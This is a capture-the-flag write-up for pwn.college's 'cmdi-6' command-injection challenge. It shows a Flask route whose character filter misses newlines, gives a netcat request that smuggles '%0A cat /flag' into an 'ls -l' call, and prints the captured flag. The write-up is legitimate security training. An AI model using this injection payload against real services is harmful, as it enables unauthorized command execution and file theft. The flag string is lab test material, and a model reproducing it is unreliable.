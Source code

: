 # 💉 Command Injection 6 — Writeup

## 🧩 Challenge Overview

**Category:** Web Exploitation  
**Challenge Name:** cmdi-6  
**Platform:** pwn.college  
**Goal:** Bypass basic character filtering to perform command injection and retrieve the flag.

---

## 📝 Source Code Analysis

```python
@app.route("/trial", methods=["GET"])
def challenge():
    arg = (
        flask.request.args.get("subdirectory", "/challenge")
        .replace(";", "")
        .replace("&", "")
        .replace("|", "")
        .replace(">", "")
        .replace("<", "")
        .replace("(", "")
        .replace(")", "")
        .replace("`", "")
        .replace("$", "")
    )
    command = f"ls -l {arg}"
    ...
```

---

## Vulnerability

The input is filtered for several dangerous characters (;, &, |, >, <, etc.), but newline characters (\n) are not filtered. Since shell=True is used, this allows us to inject a second command by breaking the shell line using a newline (%0A URL encoded).

---

##  Exploit

We can inject a newline to break into a new command:
```bash
printf "GET /trial?subdirectory=/%%0Acat+/flag HTTP/1.0\r\nHost:challenge.localhost\r\n\r\n" | nc challenge.localhost 80
```
### Explanation:

- %0A → URL-encoded newline character.
- This breaks the original command (ls -l) and starts a new line with cat /flag.

Effectively becomes:
```bash
ls -l /
cat /flag
```

---
## Flag Output
```bash
pwn.college{U7_pJ3JqFmNq9hIUJzUTkU3L_A9.QX0cTN2wSM0IzMyEzW}
```

---
